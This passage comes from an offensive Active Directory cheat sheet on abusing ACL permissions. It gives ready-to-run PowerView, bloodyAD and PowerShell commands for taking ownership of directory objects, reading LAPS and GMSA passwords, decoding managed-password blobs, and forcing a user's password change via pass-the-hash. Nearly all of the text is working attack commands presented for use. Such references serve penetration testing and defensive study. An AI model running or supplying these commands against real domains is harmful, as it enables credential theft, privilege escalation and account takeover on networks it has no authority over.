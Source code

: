 * Windows only:

 ```ps1
 Powerview> Set-DomainObjectOwner -Identity 'target_object' -OwnerIdentity 'controlled_principal'
 ```

This ACE can be abused for an Immediate Scheduled Task attack, or for adding a user to the local admin group.

## ReadLAPSPassword

An attacker can read the LAPS password of the computer account this ACE applies to.

* Windows/Linux:

 ```ps1
 bloodyAD -u john.doe -d bloody.lab -p Password512 --host 192.168.10.2 get search --filter '(ms-mcs-admpwdexpirationtime=*)' --attr ms-mcs-admpwd,ms-mcs-admpwdexpirationtime
 ```

* Windows only:

 ```ps1
 Get-ADComputer -filter {ms-mcs-admpwdexpirationtime -like '*'} -prop 'ms-mcs-admpwd','ms-mcs-admpwdexpirationtime'
 ```

## ReadGMSAPassword

An attacker can read the GMSA password of the account this ACE applies to.

* Windows/Linux:

 ```ps1
 bloodyAD -u john.doe -d bloody -p Password512 --host 192.168.10.2 get object 'gmsaAccount$' --attr msDS-ManagedPassword
 ```

* Windows only:

 ```ps1
 # Save the blob to a variable
 $gmsa = Get-ADServiceAccount -Identity 'SQL_HQ_Primary' -Properties 'msDS-ManagedPassword'
 $mp = $gmsa.'msDS-ManagedPassword'

 # Decode the data structure using the DSInternals module
 ConvertFrom-ADManagedPasswordBlob $mp
 ```

## ForceChangePassword

An attacker can change the password of the user this ACE applies to:

* Windows/Linux:

 ```ps1
 # Using bloodyAD with pass-the-hash
 bloodyAD --host [DC IP] -d DOMAIN -u attacker_user -p :B4B9B02E6F09A9BD760F388B67351E2B set password target_user target_newpwd
 ```
